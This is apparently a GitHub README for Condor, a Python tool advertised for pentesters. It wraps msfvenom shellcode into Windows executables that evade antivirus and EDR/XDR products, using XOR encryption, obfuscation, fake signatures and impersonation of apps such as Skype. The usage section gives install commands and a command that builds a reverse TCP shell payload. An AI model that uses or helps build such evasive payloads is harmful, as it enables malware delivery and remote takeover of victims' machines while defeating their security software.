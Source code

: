 <h1 align="center">「🛡️」About Condor</h1>

<p align="center"><img src="assets/banner.png"></p>

<p align="center">Condor is a tool created to help pentesters bypass protections like AVs/EDRs/XDRs in the Windows operating system. Condor was developed in Python and has several advantages to help pentesters.</p>

## Executable Scan

![](assets/scan.png)

## Benefits

* Easy to use
* Bypass multiple AVs/EDRs/XDRs
* Two XOR encryption process and an obfuscation
* The generated file is less than 7mb
* Using custom shellcode
* Fake signature on executable

## Environment support

| OS/Subsystem | Installation of All Requirements | Compilation | EXE Execution |
| ----------- | ----------- | ----------- | ----------- |
| Windows | ❌ | ✅ | ✅ |
| Linux | ✅ | ❌ | ❌ |
| Mac | not tested | not tested | not tested |
| WSL | ✅ | ✅ | ✅ |

## Help

![](assets/help.png)
[Reference](https://antiscan.me/scan/new/result?id=ioGKcbzBcSzj)


## Usage

It is recommended to run the tool in a WSL environment, as you will need to generate shellcodes using msfvenom and compile to EXE using pyinstaller.

```
$ git clone https://github.com/MrEmpy/Condor.git
$ cd Condor
$ chmod +x install.sh
$ sudo ./install.sh
...
$ python3 condor.py -p windows/x64/shell/reverse_tcp -lh <LOCAL HOST> -lp <LOCAL PORT> -i skype
```

It is necessary to have wine installed on the machine to be able to install Python. Install as shown in the screenshot:

![](assets/python-install.png)
